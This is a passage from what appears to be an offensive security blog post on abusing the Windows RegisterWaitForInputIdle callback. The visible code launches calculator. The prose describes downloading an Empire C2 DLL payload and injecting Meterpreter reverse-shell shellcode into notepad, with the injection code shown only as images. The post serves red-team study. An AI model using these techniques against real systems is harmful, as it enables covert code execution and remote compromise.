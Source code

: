 ```cpp
    }\
    if (NULL != UserWaitForInputIdleRoutine)\
    {\
        UserWaitForInputIdleRoutine(ProcessInformation.hProcess, 10000);\
    }\
    CloseHandle(ProcessInformation.hProcess);\
    CloseHandle(ProcessInformation.hThread);\
    return 33;\
}

int main()\
{

    RegisterWaitForInputIdle(MyWaitForInputIdleRoutine);\
    UINT result = MyWinExec("C:\\Windows\\System32\\calc.exe", SW_SHOWNORMAL);\
    std::cout << "WinExec returned: " << result << std::endl;

    return 0;\
}
```
![](https://miro.medium.com/v2/resize:fit:875/1*XmNjYQW3XOJL0UrAL9d8EQ.png)

Looks like it executed, and downloaded a DLL payload generated using Empire C2 framework.

So what's happening over here ?

> The working of the program is just same as usual, the difference in this function is, we are using the callback function, to download a DLL. Nothing really different.

In the next and final, section of code tweaking, we will execute a meterpreter shellcode using the callback function.

## Using RegisterWaitForInputIdle to execute a shellcode

In this final section, we will execute a shellcode generated using Meterpreter and see, if we get a reverse shell.

The very first step, would be to generate a simple reverse shell shellcode.

![](https://miro.medium.com/v2/resize:fit:875/1*Hg_S5vN8hXbVKJlFC64J1g.png)

We generate the shellcode and then define the shellcode inside our program.

![](https://miro.medium.com/v2/resize:fit:875/0*SuNN1g_rTkHf3MKD)

Then, we use a well-known & common combination for shellcode execution which is OpenProcess, VirtualAllocEx, WriteProcessMemory & CreateRemoteThread APIs.

![](https://miro.medium.com/v2/resize:fit:875/0*18AFEQACoj6ZfCgM)

Then, just for fun, we selected notepad process to inject our shellcode and calculator process's idle mode so that our callback function gets executed.
